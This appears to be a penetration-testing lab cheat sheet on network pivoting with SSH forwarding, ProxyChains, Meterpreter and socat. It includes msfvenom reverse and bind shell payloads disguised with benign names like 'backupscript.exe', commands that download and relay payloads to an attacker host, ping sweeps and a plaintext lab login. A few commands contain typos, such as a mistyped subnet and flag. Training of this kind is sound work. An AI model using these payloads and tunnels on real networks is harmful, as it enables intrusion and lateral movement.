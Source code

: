 ## SSH Local Port Forwarding

![Alt text](Assets/image.png)

### Scan Pivot Target

```bash
nmap -sT -p22,3306 10.129.202.64
```

### Executing Local Port Forwarding

```bash
ssh -L 1234:localhost:3306 ubuntu@10.129.202.64

## Forwarding multiple ports
ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@10.129.202.64
```

### Confirming Port Forward

```bash
## Confirming port forward with netstat
netstat -antp | grep 1234

## Confirming port forward with nmap
nmap -v -sV -p1234 localhost
```

![Alt text](Assets/22.png)

Unlike the previous scenario where we knew which port to access, in our current scenario, we don't know which services lie on the other side of the network. We cannot perform this scan directly from our attack host because it does not have routes to the 172.16.5.0/23 network.

We will have to perform dynamic port forwarding and pivot our network packets via the Ubuntu server. We can do this by starting a SOCKS listener on our local host (personal attack host or Pwnbox) and then configure SSH to forward that traffic via SSH to the network (172.16.5.0/23) after connecting to the target host.

### Enabling Dynamic Port Forwarding with SSH

```bash
ssh -D 9050 ubuntu@10.129.202.64
```

### ProxyChains

Even with dynamic port forwarding enabled, we need a tool to route the packets over the port mentioned above. One such tool is `ProxyChains`

```bash
## Modify /etc/proxychains.conf example
socks4 127.0.0.1 9050

## Check /etc/proxychains.conf
tail -4 f/etc/proxychains.conf
```

```bash
## Nmap with proxychains
proxychains nmap -v -sn 172.16.5.1-200

## xfreerdp with proxychains
proxychains xfreerdp /v:172.16.5.19 /u:victor .p:pass@123
```

## Remote/Reverse Port Forwarding with SSH

![Alt text](Assets/33.png)
![Alt text](Assets/44.png)

### Creating Windows Payload with msfvenom

```bash
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

### Transferring Payload to Host

```bash
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```

### Downloading Payload from Windows Target

```bash
## Start Python3 Webserver on Pivot Host
python3 -m http.server 8123
```

```powershell
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

### SSH-R (SSH Remote Forwarding)

```bash
## listen on <internalIPaddress>:8080 and forward all incoming on 8080 to 0.0.0.0:8000
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

## Meterpreter Tunneling 

### Create Payload for Ubuntu Pivot Host

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080
```

### Meterpreter Session Establishment

```bash
## Ping sweep
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23

## Ping Sweep For Loop on Linux Pivot Hosts
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done

## Ping Sweep For Loop Using CMD
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"

## Ping Sweep Using PowerShell
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```

### Configuring MSF SOCKS Proxy

```bash
msf6 > use auxiliary/server/socks_proxy

## Set the relevant options and add a line to proxychains.conf if needed
```

### AutoRoute

```bash
msf6 > use post/multi/manage/autoroute

## Set the relevant options

meterpreter > run autoroute -s 172.16.5.0/23
```

## Meterpreter Port Forwarding

### Create Local TCP Relay

```bash
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
```

### Reverse Port Forwarding 

```bash
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
```


## Socat

Socat is a bidirectional relay tool that can create pipe sockets between 2 independent network channels without needing to use SSH tunneling. It acts as a redirector that can listen on one host and port and forward that data to another IP address and port. 

### Socat Redirection with Reverse Shell

```bash
## Starting Socat Listener
socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80

## Creating Windows Payload
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```

### SoCat Redirection with Bind Shell

```bash
## Creating Windows Payload
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443

## Starting Socat Bind Shell Listener
socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```
